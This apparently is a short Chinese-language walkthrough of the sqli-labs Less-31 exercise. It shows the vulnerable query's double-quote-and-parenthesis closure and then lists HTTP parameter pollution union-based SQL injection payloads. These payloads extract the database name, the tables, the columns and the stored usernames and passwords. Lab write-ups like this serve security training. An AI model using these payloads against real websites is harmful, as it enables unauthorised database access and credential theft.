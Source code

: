 ```yaml
---
title: less31
url: https://www.yuque.com/u29002979/ep2zrx/mynmykzw9pg87hpb
---
```


```bash
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id= ($id) LIMIT 0,1";
```

与Less29的区别为闭合方式为**双引号加括号")  **

`?id=1&id=0"`

> **Warning**: mysql\_fetch\_array() expects parameter 1 to be resource, boolean given in **E:\phpstudy\_pro\WWW\sql.com\Less-31\index.php** on line **33**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"0"") LIMIT 0,1' at line 1

使用括号加单引号闭合")

`?id=1&id=0") union select 1,2,3--+`
显示2，3是回显点

<a name="ohpIT"></a>

# HTTP参数污染

<a name="iQW9u"></a>

## 联合查询

> **?id=1\&id=0")**

```bash
查看当前数据库名称
?id=1'&id=0") union select 1,2,(select database()) --+

查看数据表名称
?id=1'&id=0") union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+

爆破字段名称
?id=1&id=0") union select 1,2,(select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users')--+

爆破字段内容 
?id=1&id=0") union select 1,2,(select group_concat(username,0x7e,password)from security.users )--+
```
